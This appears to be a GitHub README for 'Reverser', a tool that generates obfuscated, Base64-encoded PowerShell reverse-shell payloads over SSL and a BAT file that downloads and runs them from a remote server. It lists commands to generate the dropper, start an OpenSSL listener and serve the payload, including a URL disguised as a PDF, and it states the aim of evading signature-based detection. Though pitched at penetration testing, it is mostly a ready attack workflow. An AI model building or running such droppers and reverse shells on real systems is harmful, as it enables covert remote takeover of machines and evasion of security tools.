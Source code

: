 # Reverser: Reverse Shell Generator with SSL Encryption

## Overview

**Reverse** is a Python-based tool designed to generate obfuscated PowerShell scripts or batch files for establishing a reverse shell with SSL encryption. This tool can help in penetration testing scenarios where the goal is to bypass security mechanisms and establish a secure connection to a target machine.

## Features

- **Reverse Shell with SSL Encryption:** Generates PowerShell scripts that establish an encrypted reverse shell connection using SSL.
- **Obfuscation:** Each generated PowerShell script uses randomly selected variable names to avoid signature-based detection by security tools.
- **Base64 Encoding:** The PowerShell scripts are encoded in Base64 for additional obfuscation.
- **Batch File Generation:** Create a batch file that downloads and executes the encoded PowerShell script directly from a remote server.
- **Customizable:** Users can specify the IP address, port, and server URL for downloading the PowerShell script.

### Prerequisites

- Python 3.x
- OpenSSL (for certificate generation)

### Installation

Clone the repository:

```bash
git clone https://github.com/ShkudW/Reverser.git
cd Reception
```

## Usage

The tool can generate two types of files, as chosen by the user:
A PS1 file with obfuscation and Base64 encoding containing a Reverse shell payload.
A legitimate BAT file that connects to a remote server to download the encoded PS1 file.

To create the BAT file, I developed a Python script that acts as a listener for the PS1 file download request. The server can operate with an encryption certificate and supports connections over both HTTP and HTTPS. This ensures that the initial connection between the BAT file and the server for downloading the payload is conducted over an encrypted channel.

The encoded PS1 file will be loaded into memory and establish a connection to another listener, which is set up using OpenSSL.

This way, we can ensure that the communication is encrypted end-to-end.



Creating a BAT file with the tool and transferring it to the listener's directory:
```bash
python3 Reverser.py -ip <Your_IP> -port <Your_PORT> -type bat -server https://<Your_Listener_Server_IP_For_Downloadin_PS1/welcome.pdf.ine.co.il.ps1>
```
![image](https://github.com/user-attachments/assets/350a0105-c8a3-43f5-8e67-fddb34cf84f8)



Opening a listener with the OpenSSL server to receive the Reverse shell connection, 
and opening a listener with our server to handle the initial connection for downloading the PS1 file from the BAT file:
```bash
openssl s_server -accept <Your_PORT> -cert reception.pem -key reception.key -quiet
```
```bash
python3 listener.py -https_port <Your_Listener_Server_PORT>
```
![image](https://github.com/user-attachments/assets/b64a4bf1-e801-4a3e-8a0b-eaa1acbd9ff8)



Running the BAT file on the workstation, the file connects to our listener server over encrypted traffic:
![image](https://github.com/user-attachments/assets/a2b977f8-455c-42a8-9ec9-1e4d66905035)



Receiving a response from the listener server and establishing a Reverse shell from the workstation:
![image](https://github.com/user-attachments/assets/dee0bf16-68f4-4059-9bdf-3d28e859e4c5)



The encrypted network traffic:
![image](https://github.com/user-attachments/assets/7fa8673f-0d4c-40e5-9449-ef746b6b203f)



And here is an example for those who want to create an encrypted listener server. 
The BAT file will connect to the server to download the PS1 file, and you can observe the connection to the server. 
The Reverse shell operation will then proceed in an encrypted manner:
![image](https://github.com/user-attachments/assets/77b78ae6-fc92-4fa9-93fa-ab43a9bc5b27)




